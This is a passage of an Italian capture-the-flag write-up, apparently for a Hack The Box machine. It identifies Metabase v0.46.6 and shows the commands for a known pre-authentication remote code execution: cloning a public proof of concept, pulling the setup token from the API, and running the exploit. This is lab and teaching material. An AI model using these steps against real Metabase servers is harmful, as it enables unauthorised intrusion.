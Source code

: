 Iniziamo a cercare la versione di metabae visto che potrebbe aprirci a molte strade, come vulnerabilità già conosciute. sul source code della pagina troviamo la versione.

![Desktop View](/assets/img/analytics/versione-metabase.png)

## Exploitation

Adesso cerchiamo delle vulnerabilità note per metabase v0.46.6

![Desktop View](/assets/img/analytics/vulnerabilità1.png)

Questa sembrerebbe perfetta per il nostro caso. Mettiamo in gioco l'exploit.

```shell
git clone https://github.com/m3m0o/metabase-pre-auth-rce-poc.git

<SNIP>

wget http://data.analytical.htb/api/session/properties #token per l'exploit

<SNIP>

cat properties | jq | grep 'setup-token'
  "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

Utilizziamo l'exploit.

```shell
python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"
```
